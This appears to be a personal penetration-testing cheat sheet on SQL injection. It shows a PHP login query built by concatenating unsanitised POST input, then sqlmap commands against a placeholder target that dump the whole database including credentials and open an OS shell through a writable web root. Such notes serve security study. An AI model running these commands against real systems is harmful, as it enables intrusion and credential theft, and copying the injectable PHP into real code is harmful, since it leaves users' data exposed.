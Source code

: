 ```yaml
---
title: SQL Injection
updated: 2025-04-22 12:53:20Z
created: 2025-04-21 02:07:48Z
latitude: 11.54487290
longitude: 104.89216680
altitude: 0.0000
---
```


## PHP
```
<?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```
* * *
## sqlmap
`sqlmap -u http://<target>/blindsqli.php?user=1 -p user`

**Dump entire database (including credentials)**
`sqlmap -u http://<target>/blindsqli.php?user=1 -p user --dump`

Use sqlmap with a POST event
1. Capture the POST event in BurpSuite and save to file **post.txt**
2. Reference the file with **sqlmap**:
`sqlmap`
`-r <reference POST event file>`
`-p <parameter vulnerable to sqlmap>`
`--os-shell`
`--web-root <a writeable folder>`

`sqlmap -r post.txt -p item --os-shell --web-root "/var/www/html/<target_dir>"`